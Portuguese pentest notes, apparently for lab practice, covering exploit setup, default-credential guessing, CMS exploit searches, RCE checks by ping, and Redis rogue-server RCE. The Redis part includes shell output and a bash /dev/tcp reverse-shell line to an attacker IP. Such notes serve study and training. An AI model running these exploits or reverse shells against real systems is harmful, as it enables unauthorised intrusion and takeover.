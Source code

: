 ## Exploitation

### Python Compatibility Issues in Exploits

Alguns exploits requerem bibliotecas específicas que podem ter problemas de compatibilidade com versões mais recentes do Python. No caso de exploits que utilizam a biblioteca **Salt**, por exemplo, ajustes podem ser necessários para garantir que tudo funcione corretamente.

#### Exemplo de Solução

```
# Criar um ambiente virtual para isolar a versão do Python
python3 -m venv env
. ./env/bin/activate

# Instalar dependências necessárias para o exploit
pip install distro salt

# Corrigir incompatibilidades na biblioteca Salt com Python 3.8+
sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

Essas adaptações são para garantir a compatibilidade da biblioteca Salt com Python 3.8, o que permite que o exploit funcione corretamente no ambiente configurado.

### Default Credential Guessing

```bash
# Teste de credenciais padrão comuns (exemplo: admin:admin, root:root) para acessar painéis de administração e outros serviços.
# Essa etapa é fundamental pois muitos sistemas mantêm credenciais padrão, que representam uma vulnerabilidade crítica.
```

**Nota**: Tentar credenciais padrão é uma abordagem inicial essencial, pois muitos sistemas ainda utilizam configurações padrão, oferecendo acesso administrativo sem autenticação personalizada.


### Exploração de CMS (Content Management Systems)

Ao encontrar um CMS, é importante identificar a versão exata da aplicação, pois muitos CMS populares possuem vulnerabilidades publicamente conhecidas que podem ser exploradas. Seguem os passos recomendados:

1. **Identificar a Versão do CMS**: Busque a versão nas páginas de login, rodapé, ou nos arquivos de configuração acessíveis. Conhecer a versão é essencial para direcionar a pesquisa de exploits.

2. **Pesquisa de Exploits Públicos**: Utilize ferramentas como `searchsploit` para buscar exploits específicos para essa versão.
   ```bash
   # Atualiza o banco de dados do searchsploit
   searchsploit -u

   # Exemplo de busca e cópia de um exploit
   searshsploit Joomla 
   searchsploit -m <exploit_id>
   ```

3. **Verificar Necessidade de Autenticação**: Muitos exploits de CMS são autenticados, ou seja, requerem login para serem utilizados. Verifique se é necessário credenciais válidas antes de iniciar o exploit.

4. **Exploração Comum (RCE, File Upload Bypass, SQLi)**: CMS frequentemente possuem vulnerabilidades de execução remota de código (RCE), bypass no upload de arquivos, e injeção SQL (SQLi), que permitem controle sobre o sistema.

**Nota**: A exploração de CMS é uma etapa crítica em pentests, pois muitas vezes esses sistemas contêm dados sensíveis e controles administrativos. Use exploits com cautela, sempre verificando os requisitos e condições para a execução.

---

## Teste de RCE com Ping

### Passo 1: Executar o Exploit com Comando Ping
Execute o exploit com um comando `ping` apontando para o IP da sua máquina de ataque:

```
python3 exploit.py -c 'ping -c1 <IP_da_máquina_de_ataque>' -t <URL_do_alvo>
```

> Exemplo: `python3 exploit.py -c 'ping -c1 192.168.145.128' -t http://192.168.145.160/grav-admin`

### Passo 2: Capturar o Tráfego com tcpdump
Na máquina de ataque, use `tcpdump` para monitorar pacotes ICMP e verificar se o ping chega:

```
tcpdump -i <interface> icmp
```

> Exemplo: `tcpdump -i tun0 icmp`

### Resultado Esperado
Se o exploit funcionar, você verá pacotes `ICMP echo request` e `echo reply` no tcpdump, confirmando a execução do comando `ping` no alvo.


**Resumindo:**
1. **Exploit**: `python3 exploit.py -c 'ping -c1 <IP_atacante>' -t <URL_alvo>`
2. **Monitorar**: `tcpdump -i <interface> icmp`
3. **Confirmação**: Pacotes ICMP indicam sucesso do RCE.

---

### Redis RCE Exploitation

Explorando vulnerabilidades em Redis (versão <=5.0.5) para obter Execução Remota de Comando (RCE) utilizando o exploit **Redis Rogue Server**.

Passo 1: Executar o Exploit com redis-rogue-server

O comando abaixo configura o Redis Rogue Server para se conectar ao Redis alvo e obter RCE. Substitua `<rhost>`, `<rport>`, `<lhost>`, e `<lport>` conforme necessário:

https://github.com/n0b0dyCN/redis-rogue-server?source=post_page-----49920d4188de--------------------------------

```
./redis-rogue-server.py --rhost=<IP_do_Alvo> --rport=<Porta_do_Alvo> --lhost=<IP_de_Loopback> --lport=<Porta_de_Loopback>
```

Exemplo
```
./redis-rogue-server.py --rhost=192.168.245.176 --rport=6379 --lhost=192.168.45.168 --lport=4443
```

Para obter reverse shell

```
rlwrap nc -lnvp 4444
```

https://github.com/hanslub42/rlwrap

Ou, para outro repositório:

https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server
```
┌──(kali㉿kali)-[~/Awsome-Redis-Rogue-Server]
└─$ python3 redis_rogue_server.py -rhost 192.168.120.118 -lhost 192.168.118.23
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /tmp
[*] Done.
[+] Accept connection from 192.168.120.118:42480
[*] The Rogue Server Finished Sending the Fake Master Response.
[*] Wait for redis IO and trans flow close...
[*] Exploit Step-2.
[*] Done.
[+] It may crash target redis cause transfer large data, be careful.
[?] Shell? [i]interactive,[r]reverse:i
[!] DO NOT USING THIS TOOL DO ANYTHING EVIL!
[+] =========================== Shell ============================= 
$ whoami && hostname 
prudence
blackgate
$ 
```

Para obter reverse shell
```
$ bash -c 'bash -i >& /dev/tcp/192.168.118.23/4422 0>&1'
```


---

### Reversing redis-status

(rever isso)

---
